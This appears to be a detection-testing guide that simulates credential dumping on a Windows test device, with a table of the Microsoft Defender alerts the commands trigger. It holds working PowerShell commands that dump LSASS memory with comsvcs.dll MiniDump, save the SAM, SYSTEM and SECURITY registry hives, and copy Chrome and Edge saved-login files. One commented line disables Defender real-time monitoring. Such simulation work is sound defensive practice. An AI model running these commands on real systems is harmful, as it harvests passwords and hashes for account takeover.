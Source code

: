 # Credential Dumping & Exfiltration

Credential dumping is a technique used by attackers to extract stored authentication credentials—such as usernames, passwords, or hashes—from a system's memory or security databases. These credentials can then be used for lateral movement, privilege escalation, or unauthorized access to sensitive systems.

## Simulation

Run the following commands in PowerShell as Administrator on a test device.

> **Note:** Download the [simulation script here](Invoke-CredentialDumpingSimulation.ps1).
> To execute the simulation run the command `Invoke-CredentialDumpingSimulation.ps1`.
> To clean up the simulation run the command `Invoke-CredentialDumpingSimulation.ps1 -CleanUp`.

### LSASS Memory Dumping

**LSASS Memory Dumping** attempts to access credential material stored in the process memory of the Local Security Authority Subsystem Service (LSASS). After a user logs on, various credentials are generated and stored in LSASS memory. Attackers, particularly those with administrative privileges, can harvest this credential material and use it for lateral movement, leveraging alternate authentication methods to gain access to other systems.

```powershell
$folderPath = "$env:TEMP\LSASSdump"
New-Item -Path $folderPath -ItemType Directory
#Set-MpPreference -DisableRealtimeMonitoring $true -ExclusionPath $folderPath
$lsassPID = (Get-Process -Name lsass).Id
cmd.exe /C "C:\Windows\System32\rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $lsassPID $folderPath\out.dmp full"
```

### SAM Credential Extraction

**SAM Credential Extraction** is a technique where attackers attempt to retrieve credential material from the Security Account Manager (SAM) database, either by accessing it in memory or through the Windows Registry where it is stored. The SAM database contains local account credentials, typically visible using the net user command. Extracting data from the SAM requires SYSTEM-level privileges, allowing attackers to potentially gain access to sensitive user credentials for further exploitation.

```powershell
$folderPath = "$env:TEMP\SAPdump"
New-Item -Path $folderPath -ItemType Directory
reg save HKLM\sam "$folderPath\sam" /y
reg save HKLM\system "$folderPath\system" /y
reg save HKLM\security "$folderPath\security" /y
```

### Browser Credential Theft

**Credentials from Web Browsers** is a technique where attackers obtain saved credentials from web browsers by accessing browser-specific files. Web browsers often store usernames and passwords in an encrypted format within a credential store to enable auto-login for websites. However, attackers can extract these credentials in plaintext.

```powershell
$folderPath = "$env:TEMP\BrowserDump"
New-Item -Path $folderPath -ItemType Directory
esentutl.exe /y "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Login Data" /d "$folderPath\Chrome_Login_Data.tmp"
esentutl.exe /y "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Login Data For Account" /d "$folderPath\Chrome_Login_DataForAccount.tmp"
esentutl.exe /y "$env:LOCALAPPDATA\Microsoft\Edge\User Data\Default\Login Data" /d "$folderPath\Edge_Login_Data.tmp"
```

## Cleanup

```powershell
$folderPath = "$env:TEMP\LSASSdump"
Remove-Item -Path $folderPath -Recurse -Force

$folderPath = "$env:TEMP\SAPdump"
Remove-Item -Path $folderPath -Recurse -Force

$folderPath = "$env:TEMP\BrowserDump"
Remove-Item -Path $folderPath -Recurse -Force
```

## Detections

| Alert Title | Alert Description | Alert Details |
| -- | -- | -- |
| TODO | Add details of LSASS Detections | To this Table |
| An active 'RegistryExfil' malware in a command line was prevented from executing | Malware and unwanted software are undesirable applications that perform annoying, disruptive, or harmful actions on affected machines. Some of these undesirable applications can replicate and spread from one machine to another. Others are able to receive commands from remote attackers and perform activities associated with cyber attacks. A malware is considered active if it is found running on the machine or it already has persistence mechanisms in place. Active malware detections are assigned higher severity ratings. Because this malware was active, take precautionary measures and check for residual signs of infection. | **Category:** Malware<br/>**MITRE ATT&CK Techniques:** N/A<br/>**Service source:** Microsoft Defender for Endpoint<br/>**Detection source:** Antivirus<br/>**Detection technology:** Client,Heuristic<br/>**Detection status:** Blocked |
| Possible theft of passwords and other sensitive web browser information | A process might be attempting to retrieve sensitive web browser information, such as saved passwords, cookies, or the browsing history. | **Category:** Credential access<br/>**MITRE ATT&CK Techniques:** T1003: OS Credential Dumping, T1005: Data from Local System, T1119: Automated Collection, T1539: Steal Web Session Cookie, T1550.004: Web Session Cookie, T1552.001: Credentials In Files, T1555.003: Credentials from Web Browsers, T1555.004: Windows Credential Manager<br/>**Service source:** Microsoft Defender for Endpoint<br/>**Detection source:** EDR<br/>**Detection technology:** Behavior,Network<br/>**Detection status:** Detected |

### References

* [Github: LearningKijo/ResearchDev/LSASS Dumping](https://github.com/LearningKijo/ResearchDev/blob/main/DEV/DEV04-LSASSdumping-MiniDump/Dev04-LSASSdumping-MiniDump.md)
